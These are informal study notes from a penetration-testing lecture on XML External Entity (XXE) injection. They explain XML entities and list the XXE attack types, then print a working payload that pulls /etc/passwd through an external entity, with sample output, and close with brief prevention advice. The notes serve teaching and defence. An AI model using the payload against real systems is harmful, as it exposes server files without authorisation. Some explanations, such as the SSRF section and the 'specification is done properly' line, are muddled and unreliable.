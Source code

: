 #WAPT-notes  

---
### what we'll learn
> Lecture Name : [HINDI] XML External Entity (XXE) Injection | Types of Attacks | Prevention
> 1) About XXE (XML External Entity (XXE) Injection)
> 2) How do XXE vulnerabilities arise ?
> 3) XML entities
> 4) What are XML custom entities ?
> 5) What are XML external entities ?
> 6) Different types of XXE attacks
> 7) Exploiting XXE to retrieve files - Example 1st XXE attack
> 8) Remediation / how to prevent XXE vulnerabilities

### Overview
- Lecture name : XML External Entity (XXE) Injection - types of attacks
- what is XXE
- how XXE vulnerabilities arise
- XML entities
- XML custom entities & external entities
- Overview : how SSRF attacks can be done
- types of XXE attacks
---

### 1. About XXE (XML External Entity (XXE) Injection)
- Reference : [What is XXE ? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)
- When data of an application & the data processed via XML (markup language) then a attacker interfere/intercept <br>
	that "processing" & from the web server , he/she could do such things like read the file , attack can be done like SSRF , <br>
	compromise the backend server , so this web security vulnerability aka XXE ✔️
- in it , we're saying `injection` cuz payload is inserted/used & via payload , everything done ✔️
- define : those applications which use XML to transferring data , so mostly XML has those features via which <br>
	we can define/declare custom entity , as a attacker , we can intercept in the middle of process of transferring data <br>
	& we can read the files , types of attacks of XXE like SSRF can be done ✔️

### 2. How do XXE vulnerabilities arise ?
- Q : When this XXE attack possible `imp ⭐`
	- cuz if specification (of the document of XML) is done properly then XXE attack can be possible 
	- or XML standard partials potentially support dangerous features via which these kind of payloads possible to execute 

### 3. XML entities
- Q : what is XML ?
    - XML stands for "extensible markup language"
	- it is a language designed for storing & transporting data & Like HTML, XML uses a tree-like structure of tags and data & unlike HTML , it doesn't have predefined tags 
- Q : what are XML entities ?
	- Define : XML entities are a way of representing an item of data within an XML document, instead of using the data itself
	- Eg of XML Entities : he entities `&lt;` and `&gt;` represent the characters `<` and `>`
	- These are metacharacters used to denote XML tags
- Q : What is document type definition (DTD) ?
	- The XML DTD contains declarations that can define the structure of an XML document

### 4. What are XML custom entities ? `v imp ⭐`
- XML allows us to define/declare our own custom entities
- Eg : of Format/syntax to define `<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` - myentity <br>
  	means name of the entity u want to give & inside double quotes contain the value of that entity

### 5. What are XML external entities ? 
- XML external entities looks like `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
- here `ext` - means it's communicating with your external resource i.e that URL
- Eg : `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
- Q : how different attacks can be done in XXE ✔️
	- so we can define XML custom entities & external entities 
	- Example : <br><img src="../../notes-pics/03-Module/13_lecture/13_lecture-0-M3.jpg" alt="" width="500"/>
	- `"file:///etc/passwd"` - here we're able to retrieve the file <br>
		cuz we define the `file` which is stored on the server i.e `etc/passwd` ✔️
	- Overview : how SSRF attack can be done : here `"file:///etc/passwd"` , <br>
		the address (of the file path we'll give) of malicious server or where we can get the user control ✔️

### 6. Different types of XXE attacks 
1) File retrieve
2) SSRF attacks
3) exfiltrate data out-of-band
4) retrieving data via error messages

### 7. Exploiting XXE to retrieve files - Example 1st XXE attack
- Reference : [Exploiting XXE to retrieve files | portswigger](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)
- STEP 1 : For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?> 
    <stockCheck><productId>381</productId></stockCheck>
    ```
- STEP 2: so we changed the above XMl code into this 
	- The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability <br>
		to retrieve the `/etc/passwd` file by submitting the following XXE payload:
		```xml
		<?xml version="1.0" encoding="UTF-8"?> 
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
		<stockCheck><productId>&xxe;</productId></stockCheck>
		```
	- to exploit that above code , we took `DOCTYPE foo` then `!ENTITY xxe` entity we declared/define (what ENTITY xxe doing?) which is retrieving `"file:///etc/passwd"`
	- & then for "productId" we define `&xxe;` - here we put `&` to tell it's a entity
- STEP 3: the code of STEP 2 
	- This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and <br>
		uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
    ```xml
    Invalid product ID: root:x:0:0:root:/root:/bin/bash 
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
    bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
    ```
	- it'll retrieve the contents of the `/etc/password` & show the contents
	- so we got `invalid product ID` - cuz in `productId` , we define `&xxe;` & then we got the content of `/etc/password` i.e 
	```xml
	root:x:0:0:root:/root:/bin/bash daemon 
	1:1:daemon:/usr/sbin:/usr/sbin/nologin 
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	```

### 8. Remediation / how to prevent XXE vulnerabilities
- all XXE vulnerabilities arise/come cuz XML parsing library supports dangerous XML features
- easiest & most effective way to protect/prevent XXE attacks is to disable those features such as `XInclude` - disable it <br>
	but if u can't disable then overwrite the default behavior of it ✔️

